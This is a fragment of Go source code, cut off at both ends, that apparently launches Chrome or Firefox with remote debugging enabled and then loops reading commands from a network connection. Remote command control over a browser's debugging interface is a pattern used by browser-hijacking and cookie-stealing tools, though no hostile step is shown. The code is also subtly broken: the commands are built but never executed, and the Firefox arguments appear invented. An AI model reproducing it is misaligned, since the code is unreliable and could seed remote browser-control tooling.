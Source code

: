 ```

	}()



	// Check if the target browser is open

	if strings.Contains(strings.ToLower(os.Args[1]), "chrome") {

		exec.Command("chrome.exe", "--remote-debugging-port=9222")

	} else if strings.Contains(strings.ToLower(os.Args[1]), "firefox") {

		exec.Command("firefox.exe", "-remote", "setDebuggerEnabled", "true")

	}



	// Start listening for commands

	for {

		_, message, err := conn.ReadMessage()

		if err != nil {

			log.Println("Error reading message:", err)

			break

		}



	



